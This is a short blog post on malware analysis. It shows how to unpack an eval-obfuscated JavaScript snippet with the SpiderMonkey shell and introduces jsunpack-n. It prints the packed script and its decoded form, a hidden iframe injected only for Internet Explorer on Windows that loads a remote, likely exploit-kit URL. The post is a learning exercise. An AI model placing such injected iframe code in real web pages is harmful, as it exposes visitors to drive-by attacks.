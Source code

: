 ```yaml
---
layout: post
title: "Javascript malware | Checking it out with Spidermonkey and jsunpack-n"
date: 2015-02-01
comments: true
categories:
---
```

Allright, I've started going through the [Malware Analyst's Cookbook ](http://www.amazon.com/Malware-Analysts-Cookbook-DVD-Techniques/dp/0470613033), the book are almost like a big guide for all the tools a malware researcher may need. I like it, opens up for yourself to have fun and try the stuff!

So I will give som articles showing the usage of tools I want to pinpoint my learning at.

## Spidermonkey

>>>[SpiderMonkey](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey) is Mozilla's JavaScript engine written in C/C++. It is used in various Mozilla products, including Firefox, and is available under the MPL2.

It's supernice to have a javascript engine callable from the terminal.
Lets have a very basic example of dealing with obfuscated code being called by eval.

I'll found [this](http://stackoverflow.com/questions/7765594/javascript-code-injected-into-site-can-you-help-me-decrypt-it) post at stackoverflow.

He want the following code decrypted:

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('i 9(){a=6.h(\'b\');7(!a){5 0=6.j(\'k\');6.g.l(0);0.n=\'b\';0.4.d=\'8\';0.4.c=\'8\';0.4.e=\'f\';0.m=\'w://z.o.B/C.D?t=E\'}}5 2=A.x.q();7(((2.3("p")!=-1&&2.3("r")==-1&&2.3("s")==-1))&&2.3("v")!=-1){5 t=u("9()",y)}',41,41,'el||ua|indexOf|style|var|document|if|1px|MakeFrameEx|element|yahoo_api|height|width|display|none|body|getElementById|function|createElement|iframe|appendChild|src|id|25u|msie|toLowerCase|opera|webtv||setTimeout|windows|http|userAgent|500|asso|navigator|com|showthread|php|72291731'.split('|'),0,{}))
```

Save the code inte a file with a firstline of `eval = print;`

Then from the terminal call: `js evil.js | indent`
Indent is a nice tool in linux used to indent and make the code readable, it's made for C but works allright for languages with a similar syntax.

Output:

```javascript
function
MakeFrameEx ()
{
  element = document.getElementById ('yahoo_api');
  if (!element)
    {
      var el = document.createElement ('iframe');
      document.body.appendChild (el);
      el.id = 'yahoo_api';
      el.style.width = '1px';
      el.style.height = '1px';
      el.style.display = 'none';
    el.src = 'http://asso.25u.com/showthread.php?t=72291731'}
}

var ua = navigator.userAgent.toLowerCase ();
if (((ua.indexOf ("msie") != -1 && ua.indexOf ("opera") == -1
      && ua.indexOf ("webtv") == -1)) && ua.indexOf ("windows") != -1)
  {
  var t = setTimeout ("MakeFrameEx()", 500)
  }


```

You can do this anywhere you have a javascript interpreter but the shell offers simplicity and effectiveness for us who aren't web devs.

As for the code analysis we see that it creates an iframe and appends it to the body. The link are down but you may assume it was an exploitkit, deface page or similar.

##jsunpack-n
>[jsunpack-n](https://code.google.com/p/jsunpack-n/) emulates browser functionality when visiting a URL. It's purpose is to detect exploits that target browser and browser plug-in vulnerabilities. It accepts many different types of input:

>* PDF files - samples/sample-pdf.file
* Packet Captures - samples/sample-http-exploit.pcap
* HTML files
* JavaScript files
* SWF files

What I'm most excited about right now is malicious pdf files.
I've downloaded a couple of samples from [http://contagiodump.blogspot.se/2013/03/16800-clean-and-11960-malicious-files.html](http://contagiodump.blogspot.se/2013/03/16800-clean-and-11960-malicious-files.html)